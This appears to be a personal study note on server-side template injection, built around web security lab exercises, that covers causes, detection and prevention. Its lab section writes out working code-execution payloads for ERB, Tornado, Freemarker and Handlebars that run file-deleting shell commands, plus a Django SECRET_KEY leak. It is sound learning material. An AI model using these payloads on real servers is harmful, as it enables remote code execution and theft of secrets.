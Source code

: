 - Server-side template injection is when an attacker is able to use native template syntax to inject a malicious payload into a template, which is then executed server-side.

- Template engines are designed to generate web pages by combining fixed templates with volatile data. Server-side template injection attacks can **occur when user input is concatenated directly into a template, rather than passed in as data**. As the name suggests, server-side template injection payloads are delivered and evaluated server-side, potentially making them much more dangerous than a typical client-side template injection.

- In certain rare circumstances, these vulnerabilities pose no real security risk. However, most of the time, the impact of server-side template injection can be catastrophic. At the severe end of the scale, an attacker can potentially achieve remote code execution, taking full control of the back-end server and using it to perform other attacks on internal infrastructure.

## How do server-side template injection vulnerabilities arise?

- Correct way to use a template (Twig): 
```javascript
$output = $twig->render("Dear {first_name},", array("first_name" => $user.first_name));
```

- Uncorrect and dangerous way to use a template:

```javascript
$output = $twig->render("Dear " . $_GET['name']);
```

This potentially allows an attacker to place a server-side template injection payload inside the `name` parameter as follows:

```http
http://vulnerable-website.com/?name={{bad-stuff-here}}
```


## Constructing a server-side template injection attack

Identifying server-side template injection vulnerabilities and crafting a successful attack typically involves the following high-level process:

![[Schermata del 2024-12-03 19-48-53.png]]

We can exploit the Server-Side Template Injection by:
- injecting a template and forcing an error to find out the template engine used;
- find vulnerabilities on the web for the template engine found previously.

#### Detect

- The simplest initial approach is to try fuzzing the template by injecting a sequence of special characters commonly used in template expressions, such as `${{<%[%'"}}%\`. If an exception is raised, this indicates that the injected template syntax is potentially being interpreted by the server in some way. This is one sign that a vulnerability to server-side template injection may exist.
- Another method is to first establish that the parameter doesn't contain a direct XSS vulnerability by injecting arbitrary HTML into the value:

```http
http://vulnerable-website.com/?greeting=data.username<tag>
```

In the absence of XSS, this will usually either result in a blank entry in the output, encoded tags, or an error message. The next step is to try and break out of the statement using common templating syntax and attempt to inject arbitrary HTML after it:

```http
http://vulnerable-website.com/?greeting=data.username}}<tag>
```

If this again results in an error or blank output, you have either used syntax from the wrong templating language or, if no template-style syntax appears to be valid, server-side template injection is not possible. Alternatively, if the output is rendered correctly, along with the arbitrary HTML, this is a key indication that a server-side template injection vulnerability is present:

```html
Hello Carlos<tag>
```

## Labs

###### Lab: Basic server-side template injection

Injection of Ruby code in ERB template:

```html
<%= system("rm /home/carlos/morale.txt") %>
```

###### Lab: Basic server-side template injection (code context)

Injection of Python code in Tornado template in the POST request `/my-account/change-blog-post-author-display` body:

```http
blog-post-author-display=__import__("os").system("rm morale.txt")&csrf=2D4a3iCBYfS5wGNUBfAmWN4EuIrvNE3t
```

###### Lab: Server-side template injection using documentation

Freemarker template (Java-based) injection and remote code execution:

```java
${"freemarker.template.utility.Execute"?new()("rm morale.txt")}
```

###### Lab: Server-side template injection in an unknown language with a documented exploit

See if there's XSS in the query parameters. Otherwise, template inject:

```
{{1/0}}
```

Handlebars template injection:

```
wrtz{{#with "s" as |string|}} 
{{#with "e"}} 
{{#with split as |conslist|}} 
{{this.pop}} 
{{this.push (lookup string.sub "constructor")}} 
{{this.pop}} 
{{#with string.split as |codelist|}} 
{{this.pop}} 
{{this.push "return require('child_process').exec('rm /home/carlos/morale.txt');"}} 
{{this.pop}}
{{#each conslist}}
{{#with (string.sub.apply 0 codelist)}}
{{this}} 
{{/with}}
{{/each}}
{{/with}}
{{/with}} 
{{/with}}
{{/with}}
```

**NB: the injected code above must be URL-encoded (also the special character)!!**

###### Lab: Server-side template injection with information disclosure via user-supplied objects

To catch the **Django's SECRET_KEY** just inject:

```
{{settings.SECRET_KEY}}
```
or 
```
{% debug %}
```


## Prevention

- Don’t process user templates server-side
- If you have to, sandbox and disable dangerous modules
- Implement allowlist for allowed attributes
- Use **data binding** as much as possible. Don’t concatenate user strings with the template!


### SSTI vs [XSS](XSS%20(Cross-Site%20Scripting).md)

- XSS is usually made on client browser, while SSTI happens on server-side
- SSTI could imply XSS: if there's SSTI, there could be also XSS

SSTI is often mistaken for a simple XSS vulnerability. However, by setting mathematical operations as the value of the parameter, we can test whether this is also a potential entry point for a server-side template injection attack.
For example, consider a template that contains the following vulnerable code:

```javascript 
render('Hello ' + username)
```

During auditing, we might test for server-side template injection by requesting a URL such as:

```javascript
http://vulnerable-website.com/?username=${7*7}
```

If the resulting output contains `Hello 49`, this shows that the mathematical operation is being evaluated server-side.